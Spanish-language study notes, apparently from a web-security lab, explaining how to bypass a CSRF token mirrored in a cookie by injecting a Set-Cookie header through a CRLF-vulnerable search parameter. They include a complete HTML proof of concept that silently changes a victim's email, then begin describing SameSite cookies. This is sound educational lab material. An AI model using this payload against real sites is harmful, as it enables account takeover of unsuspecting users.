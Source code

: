 #### Bypass CSRF Token cuando se duplica en una cookie (CRLF Injection)

Algunas aplicaciones no mantienen ningún registro del lado del servidor de los tokens que se han emitido, sino que duplican cada token dentro de una cookie y un parámetro de solicitud. La aplicación simplemente verifica que el token enviado en el parámetro de solicitud coincida con el valor enviado en la cookie.

Se recomienda porque es simple de implementar y evita la necesidad de cualquier estado del lado del servidor.

>[!note]
>Al igual que el anterior ejemplo se tiene un parametro **search** vulnerable a **CRLF Injection**.

la aplicacion tiene un token csrf que se duplica en una cookie y verifica que sean iguales:

![[Pasted image 20230207231901.png]]

cuando no son iguales manda este mensaje:

![[Pasted image 20230207231935.png]]

como podemos inyectar una cookie, podemos colocar cualquier valor arbitrario pero que sean iguales:

PoC:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a5600f1049cf9a4c0646dbb00df002f.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hate&#64;you&#46;c" />
      <input type="hidden" name="csrf" value="cualquier-valor" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0a5600f1049cf9a4c0646dbb00df002f.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=cualquier-valor%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>

```

### BYPASS SAMESITE COOKIE RESTRICTIONS

#### QUE ES SAMESITE

SameSite es un mecanismo de seguridad del navegador que determina cuándo las cookies de un sitio web se incluyen en las solicitudes que se originan en otros sitios web. Las restricciones de cookies de SameSite brindan protección parcial contra una variedad de ataques entre sitios, incluidos CSRF, filtraciones entre sitios y algunas vulnerabilidades de [CORS](https://portswigger.net/web-security/cors)

La diferencia entre un sitio y un origen es su alcance; un sitio abarca varios nombres de dominio, mientras que un origen solo incluye uno.
